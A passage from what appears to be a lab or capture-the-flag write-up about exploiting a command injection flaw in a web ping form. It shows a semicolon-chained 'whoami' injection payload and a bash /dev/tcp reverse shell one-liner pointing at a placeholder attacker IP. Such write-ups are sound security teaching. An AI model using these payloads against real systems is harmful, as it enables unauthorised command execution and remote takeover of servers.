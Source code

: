 $ ping -c 3 **127.0.0.1; whoami**

According to this approach, first the ping tool will ping the localhost address. But the **whoami** will be executed as an independent command due to that semicolon(;) placed before it which will end the previous command.  
Let's test this payload in the "ping box".

![](/assets/img/nk/image-34.png)testing the payload ![](/assets/img/nk/image-36.png)

Did you notice something? If not, then look at the last line of the output highlighted with red box. That **whoami **command we gave actually got executed. Yay, that means we have arbitrary code injection. Now the first thing an attacker generally does after discovering such a command injection vulnerability is to try to get a reverse shell using netcat. I tried the same but it didn't helped. The reason behind that was **either the netcat isn't installed on the target system **or **the current user(apache) does not have permission to execute it**. So we have to look somewhere else. 

So I set up a netcat server listening on my attack machine and executed this command in the ping box for getting a reverse shell. I got this from [here](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).

bash -i >& /dev/tcp/_attacker's_IP**/**port_no_ 0>&1 

I placed my attack machine's IP in place of _attacker's_IP _and desired_ _port in place of _port_no_ so that It can connect to my host. But before executing it, I had to create a netcat server to receive that connection and get a reverse shell.

![](/assets/img/nk/image-38.png) ![](/assets/img/nk/image-39.png)
